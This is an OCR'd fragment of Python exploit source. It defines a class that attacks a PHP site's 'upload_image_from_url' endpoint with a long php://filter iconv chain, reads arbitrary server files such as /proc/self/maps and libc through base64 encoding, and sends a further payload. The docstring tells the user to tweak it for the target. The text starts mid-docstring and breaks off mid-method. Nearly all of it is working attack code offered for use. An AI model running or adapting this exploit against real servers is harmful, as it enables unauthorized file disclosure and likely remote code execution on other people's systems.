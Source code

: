 ```python
    
    The logic of the exploit is always the same, but the exploit needs to know how to
    download files (/proc/self/maps and libc) and how to send the payload.
    
    The code here serves as an example that attacks a page that looks like:
    
    ```php
    <?php
    
    $data = file_get_contents($_POST['file']);
    echo "File contents: $data";
    ```
    
    Tweak it to fit your target, and start the exploit.
    """

    def __init__(self, url: str) -> None:
        self.url = url
        self.session = Session()

    def send(self, path: str) -> Response:
        """Sends given `path` to the HTTP server. Returns the response.
        """

        data = {'action' : 'upload_image_from_url',
                'url' : urllib.parse.quote_plus('php://filter/convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.base64-decode/resource='+path),
                'id' : '1',
                'accepted_files' : 'image/gif'}
        return self.session.post(self.url, data=data)


    def send_exploit(self, payload: bytes) -> Response:
        """Sends the payload to the server.
        """
        data = {'action' : 'upload_image_from_url',
                'url' : urllib.parse.quote_plus(payload),
                'id' : '1',
                'accepted_files' : 'image/gif'}
        return self.session.post(self.url, data=data)
        
    def download(self, path: str) -> bytes:
        """Returns the contents of a remote file.
        """
        path = f"php://filter/convert.base64-encode/resource={path}"
        file_path = self.send(path).json()['response']
        
        if 'File type' in file_path:
            print(file_path)
            return b''
```